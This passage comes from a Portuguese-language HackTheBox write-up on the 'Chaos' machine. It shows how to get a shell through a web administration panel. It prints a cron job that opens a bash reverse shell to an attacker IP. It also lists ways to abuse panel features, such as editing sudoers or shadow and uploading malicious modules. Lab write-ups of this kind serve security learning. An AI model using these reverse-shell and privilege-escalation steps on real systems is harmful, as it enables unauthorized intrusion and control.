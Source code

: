 ### Pegando Shell na máquina

Primeiro modo é só ir clicando em Others -> Command Shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_m.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_m1.png)

Segundo modo podemos fazer um cronjob na máquina, clicando em System -> Scheduled Cron Jobs

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_c.png)

Adicionamos uma cron para nos dar um shell

`* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.117/443 0>&1'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chaos/C_c1.png)

Tem muitas outras coisas para se investigar, como descrito no blog do `0xdf`

System -> Filesystem Backup - Mudança arbitrária de arquivos (adicionar ao suderos, adiconar contas de root ao passwd ou shadow...)

System -> Scheduled Commands - Agendar um reverse shell?

Others -> Custom Commands - Adicionar um comando para reverse shell?

Others -> File Manager - Igual acima?

Others -> HTTP Tunnel - Acessar serviços locais?

Others -> Java File Manager - Upload de java maliciosos?

Others -> Perl Modules - Perl malicioso?

Others -> PHP Configuration - Módulo PHP malicioso?

Others -> Upload and Download - Mudança arbitrária de arquivos?
